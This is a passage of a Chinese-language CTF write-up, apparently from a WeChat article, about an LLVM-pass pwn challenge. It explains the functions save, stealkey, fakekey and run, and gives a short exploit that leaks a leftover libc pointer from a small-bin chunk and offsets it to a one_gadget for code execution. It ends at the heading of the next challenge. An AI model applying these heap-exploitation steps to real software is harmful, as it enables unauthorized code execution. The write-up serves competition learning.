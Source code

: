 ![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKa9IibK9Pt81EfOK9knntCFI9sXVlibQCKS0UKicP9HA9oFexVvG6JicryQ/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKKfTmyAxiaKArfaB7iabztuV9yhuec8ceuSFGTIkwoibXst15FdxxcuMCw/640?wx_fmt=other&from=appmsg "null")  
  
  
save函数，两个参数，char类型，申请一个0x20的堆块，把两个参数分别放入堆块中  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKBqhibqYD2M0FgtiaepuL4sia5XiaIib3zR2EznTs07tG1cUBicrUwjrVfUtA/640?wx_fmt=other&from=appmsg "null")  
  
  
stealkey函数，没有参数，把堆块中的第一个8字节赋值给byte_204100  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKvR2K3T9KexDFpsfic5zsoSCh0tMtED2wVyg5dn1ktKLnmicRZiciaDhCiag/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKEw0n56WP4pyETdOLDmq0UpfTg7n5BhHm0cA6YZRe0RC6MNQFNqCsvA/640?wx_fmt=other&from=appmsg "null")  
  
  
fakekey函数，1个参数，与byte_204100相加并赋值给chunk的前8字节  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKjJDpqP4ho32xqD62xsF1IumgpezYiccqSOdVxriaDGPHjU5ZRnIUItCw/640?wx_fmt=other&from=appmsg "null")  
  
  
run函数，没有参数，将chunk的前八字节作为函数指针调动  
  
基本exp  
```
void save(char *a,char *b);
void stealkey();
void fakekey(int a);
void run();
void B4ckDo0r(){

}
```  
  
这里可以看到，save会malloc一个0x20大小的chunk，调试发现，save一次后，tcache中没有符合要求的chunk了，再save一次，就会变成small bins，这时候chunk中会有残留的libc指针，再通过stealkey把指针赋值给byte_204100，再用fakekey对指针进行偏移的加减，改为one_gadget，执行run函数，即可  
  
完整exp  
```
void save(char *a,char *b);
void stealkey();
void fakekey(int a);
void run();
void B4ckDo0r(){
save("aaaa","bbbb");
save("","b");
stealkey();
fakekey(-0x1090f2);
run();
}
```  
### 3.CISCN2023 llvmHELLO  
  